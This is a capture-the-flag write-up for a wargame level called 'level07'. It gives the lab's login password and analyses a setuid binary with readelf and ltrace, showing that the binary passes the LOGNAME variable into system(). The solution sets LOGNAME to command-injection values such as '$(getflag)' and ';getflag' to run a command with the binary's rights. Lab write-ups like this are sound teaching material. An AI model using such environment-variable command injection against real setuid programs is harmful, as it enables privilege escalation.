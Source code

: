 # 07 

###### tags: `readelf`

Login

```b
> ssh level07@$(ifconfig|grep 'inet '|awk 'NR==2 {print $2}') -p 4242
> Password: wiok45aaoguiboiki2tuin6ub
```
```b
> ls -l
-rwsr-sr-x 1 flag07 level07 8805 level07
```

Command list

```b
> file level07
> strings level07
> xxd level07 | grep level
> xxd level07 | grep -A3 -B3 level
> readelf -s ./level07 | grep -E 'getenv|system|exec|echo|puts|write|printf'
                        regex ^^
> objdump -d level07 | grep -E "getenv|system|exec|echo|puts|write|printf"
> ltrace ./level07  🟢
> readelf -p .rodata ./level07  🟢
```

Using `readelf -p .rodata` and `ltrace`
- `-p` : `printable-string-dump` displays contents of a section 
- `.rodata` : `read-only data` section = what we want to see 

```b

String dump of section '.rodata':
  [     8]  LOGNAME
            ^^^^^^^ 
  [    10]  /bin/echo %s 
```
```b
> ltrace ./level07

__libc_start_main(0x8048514, 1, 0xbffff7f4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                  = 2007
geteuid()                                                  = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)        = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)        = 0
getenv("LOGNAME")                                          = "level07"
        ^^^^^^^  
asprintf(0xbffff744, 0x8048688, 0xbfffff4b, 0xb7e5ee55, 0xb7fed280) = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                     = 0
+++ exited (status 0) +++
```

Solution
```b
   Either one of 
export LOGNAME='$(getflag)'
export LOGNAME=";getflag"
export LOGNAME='`getflag`'
   Then
./level07
```
